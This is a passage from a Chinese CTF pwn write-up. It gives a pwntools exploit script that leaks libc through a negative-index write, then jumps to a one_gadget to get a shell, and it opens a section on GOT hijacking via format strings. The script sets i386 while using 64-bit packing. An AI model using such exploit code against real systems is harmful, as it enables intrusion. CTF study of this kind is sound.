 ```plain
    context.arch = 'i386'

#p=remote('node5.anna.nssctf.cn',28573)
p=process('./pwn')
elf = ELF('./pwn')
libc=ELF('/lib/x86_64-linux-gnu/libc-2.31.so')

start=elf.sym["_start"]
ru('one.\n')
sl('-6')
ru("name\n")
s(p64(start))
#duan()
ru('one.\n')
sl('-7')
ru("name\n")
s('\xc0')
r(13)

read_addr=u64(r(6).ljust(8,b'\x00'))
libc_base=read_addr-libc.symbols['read']
leak('libc_base ',libc_base)

ogs=[0xe3afe,0xe3b01,0xe3b04]
og=libc_base+ogs[1]
ru('one.\n')
sl('-6')
ru("name\n")
s(p64(og))
itr()
```

## 非栈上格式化字符串劫持GOT表

### 青少年ctf login

[![](assets/1701678450-743f4972912724b6c25eba8d652b35d3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129210944-90a408ea-8eb8-1.png)  
这里也是可以修改got表  
ida  
[![](assets/1701678450-8aef9aefaa4572ee12c137a39aee79bc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129210954-96a6acca-8eb8-1.png)
